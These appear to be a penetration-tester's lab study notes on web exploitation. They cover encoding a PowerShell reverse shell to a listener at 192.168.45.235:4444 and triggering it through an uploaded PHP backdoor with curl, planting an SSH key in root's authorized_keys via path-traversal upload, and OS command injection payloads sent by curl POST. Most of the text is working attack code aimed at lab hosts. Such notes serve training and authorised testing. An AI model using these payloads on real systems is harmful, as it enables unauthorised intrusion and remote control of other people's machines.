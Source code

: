 ```
pwsh

$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.235",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

exit
```

powershell needs an enc parameter to specify encoding

```
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB
```

### Non-execution file upload

can attempt to overwrite authorized_keys for ssh

```
ssh-keygen
cat .ssh/id_rsa.pub > attack.pub
```

then upload to `../../../../root/.ssh/authorized_keys

sometimes have to remove known hosts file
```
rm ~/.ssh/known_hosts
```

### OS command injection

can use the -X flag with curl for POST requests

```
curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive
```

can use `git version` to reveal OS

url-encoded semicolon is `%3B`

```
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive
```

for windows, we need to check if it's running CMD or powershell

```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
